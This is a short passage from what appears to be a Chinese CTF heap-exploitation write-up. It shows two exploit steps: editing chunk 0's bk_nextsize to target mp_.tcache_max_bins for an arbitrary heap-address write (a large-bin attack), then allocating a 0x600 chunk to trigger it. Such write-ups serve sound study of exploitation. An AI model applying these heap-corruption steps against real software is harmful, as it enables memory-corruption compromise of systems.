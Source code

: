 [![](assets/1700442753-0780006312dd6645560eb0b5072ab1f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185456-be9a2f3e-8537-1.png)

```plain
edit(0,p64(0)*3+p64(tcache_max_bins-0x20))
#修改 chunk 0 的 bk_nextsize 为_mp+80 - 0x20 处，来达到任意地址写一个堆块地址
```

[![](assets/1700442753-4ffccf32f2bb28f592e38f6af2177831.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185500-c0df5e72-8537-1.png)

```plain
add(4,0x600,"\n")
#申请一个大堆块触发漏洞
```
